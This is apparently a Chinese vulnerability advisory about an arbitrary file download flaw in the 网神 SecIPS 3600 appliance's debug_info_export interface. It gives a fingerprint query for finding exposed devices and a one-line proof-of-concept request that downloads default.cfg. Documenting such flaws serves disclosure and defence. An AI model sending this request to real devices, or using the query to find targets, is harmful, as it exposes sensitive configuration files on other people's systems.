 # 网神 SecIPS 3600 debug_info_export 任意文件下载漏洞

## 漏洞描述

网神 SecIPS 3600 debug_info_export接口存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器敏感文件

## 漏洞影响

<a-checkbox checked>网神 SecIPS 3600 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="网神-SecIPS"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1639641366514-eff0967c-0e03-479e-b9d3-81ba2f07eacb.png)

验证POC

```go
/webui/debug/debug_info_export?filename=default.cfg
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1639641390577-fec79e9b-2981-4807-a0fd-1bd6f7986a44.png)